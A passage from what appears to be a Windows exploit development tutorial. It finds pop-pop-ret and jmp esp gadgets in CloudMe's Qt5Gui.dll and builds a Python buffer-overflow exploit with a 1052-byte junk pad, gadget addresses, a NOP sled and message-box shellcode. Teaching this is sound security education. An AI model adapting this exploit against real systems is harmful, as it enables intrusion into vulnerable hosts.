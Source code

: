 ![windows](/assets/img/headers/windows-exploit-dev-part-2/win5.png)

Everything that is "False" can be used for found address! `Use ALT + E` to found all dll's. I use third dll. But dont miss to start the program.
```sh
61B40000|005F6000|Qt5Gui|5.9.0.0|C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Gui.dll
```
Now we use `ALT + S` to find sequence of commands for `pop pop ret` , I use `pop r32` because i have x86 arhitecture.

![windows](/assets/img/headers/windows-exploit-dev-part-2/win6.png)

Now we use same dll for found `jmp esp` address. Use `CTRL + F` to find command.

![windows](/assets/img/headers/windows-exploit-dev-part-2/win7.png)

#e have all pices for exploit. We have `pop pop ret` address `0x77621f29` and `ESP+8` address `0x7767e684` (1052 A + pop_ret+8_bites_space+jmp_esp+nop+shellcode).

```python
import socket


target="127.0.0.1"
junk="A"*1052
pop="\x29\x1f\x62\x77"  		# 0x77621F29   5B     POP EBX
junk1="\x90"*8 				# 8 bites space
jmp_esp="\x84\xe6\x67\x77" 		# 0x7767E684   FFE4   JMP ESP
nop="\x90"*20 				# NOPS

#Shellcode message BrokenByte
shellcode = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")
```